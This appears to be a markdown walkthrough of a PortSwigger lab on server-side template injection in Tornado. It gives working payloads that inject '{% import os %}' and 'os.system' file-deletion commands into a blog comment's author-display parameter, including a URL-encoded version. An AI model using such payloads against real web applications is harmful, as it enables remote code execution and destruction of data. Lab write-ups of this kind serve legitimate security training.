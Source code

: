 # Basic server-side template injection (code context)

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT: {% import os %} {{os.system('rm /home/carlos/morale.txt')

### in Django templates `{{ }}` are used to evaluate [variables](https://docs.djangoproject.com/en/1.9/ref/templates/language/#variables) and  ### `{% %}` are Django templates [tags](https://docs.djangoproject.com/en/1.9/ref/templates/language/#tags) for commands such as `block`, `if`, `for`, `with`, `comment`, etc.

### in torando template {% apply linkify %}{{name}} said: {{message}}{% end %}

```python
import os
cmd = 'rm /home/kali/Downloads/burp/new_test.txt'
os.system(cmd)
```

above code will delete new_text.txt file from system

---

### step 1

login using into account
observe preferred name functionality

### step2

comment anything into any post you will see name and comment

![screenshot](./images/lab2_prefered_name.png)

code of the above image is

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

### step2

if preferred name change name from first name it will be

![screenshot](./images/lab2_prefered_name_first_name.png)

### step3

if preferred name change name from nick name it will be

![screenshot](./images/lab2_prefered_name_nickname.png)

### step4

`blog-post-author-display=user.name&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify this line
`blog-post-author-display=user.name}}{{7\*\*&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP

![screenshot](./images/lab2_modify_code_into_repeter.png)

### step4

`blog-post-author-display=user.name}}{{7**&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP
modify `
{% import os %} {{os.system('rm /home/carlos/morale.txt')
`blog-post-author-display=user.name}}{% import os %}{{os.system('rm /home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP

url encoded ctrl u
`blog-post-author-display=user.name}}{%25+import+os+%25}{{os.system('rm+/home/carlos/morale.txt')&csrf=C2REwa5JbF9LA0ruepT0KLstRUHBlmdP`

and reload blog post

![screenshot](./images/lab2_blog_page_with_error_and_solve_lab.png)
